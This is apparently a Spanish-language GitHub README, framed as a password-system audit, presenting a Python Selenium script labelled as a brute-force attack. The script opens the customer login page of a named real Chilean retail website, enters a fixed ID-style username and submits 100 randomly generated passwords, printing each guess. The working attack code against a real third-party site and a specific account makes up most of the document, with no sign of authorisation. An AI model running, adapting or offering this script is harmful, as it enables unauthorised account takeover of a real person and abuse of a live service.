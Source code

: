 # Automatización de credenciales con python y selenium
Auditar la implementación de los sistemas de creación, actualización, acceso, transmisión y recuperación de contraseñas

## Selenium 
Selenium es un entorno de pruebas que se utiliza para automatizar servicios de sowftware.

## Instalación
Usa el pip en la consola para instalar el paquete de selenium.

```bash
pip install selenium
```
## Ejemplo de uso de python con selenium (ataque fuerza bruta)

```python
import string
import time
import random

#Carga el módulo webdriver para implementar las clases y métodos para el soporte de los diferentes navegadores
from selenium import webdriver

#Carga la configuración del teclado virtual para simular las entradas de teclado
from selenium.webdriver.common.keys import Keys

#Crea una instancia de Chrome que se pueda controlar con comandos de selenium.
driver = webdriver.Chrome()

#Llama a la página chilena, que será la base para las interacciones automatizadas
driver.get('https://www.wei.cl/cliente/ingreso')
time.sleep(5)
#variable que contendrá carácteres uppercase, lowercase y digitos del 0-9, es decir base 62
letters = string.ascii_letters + string.digits

#Inicia la automatiación de 100 accesos (verifica si el sitio web es susceptible a ataques por fuerza bruta) 
for x in range(100):

    #Se buscará dentro del sitio web los elementos que contengan un atributo name llamados ''client-username''
    usr = driver.find_element_by_id("client-username")
    usr.clear()
    #Se introduce el valor que contiene la variable usr
    usr.send_keys("20189579-0")
    #Se buscará dentro del sitio web los elementos que contengan un atributo name llamados ''client-password''
    psw = driver.find_element_by_id("client-password")
    str = ''.join(random.choice(letters) for i in range(random.randrange(6,10)))
    
    #Se introduce el valor que contiene la variable psw
    psw.send_keys(str)
    print(str)
    
    #Está variable permite efectuar un evento click a la página web mediante el xpath
    clk = driver.find_element_by_xpath('//*[@id="form-ingreso-window"]/button').submit()
    time.sleep(1)
    psw.clear()
```

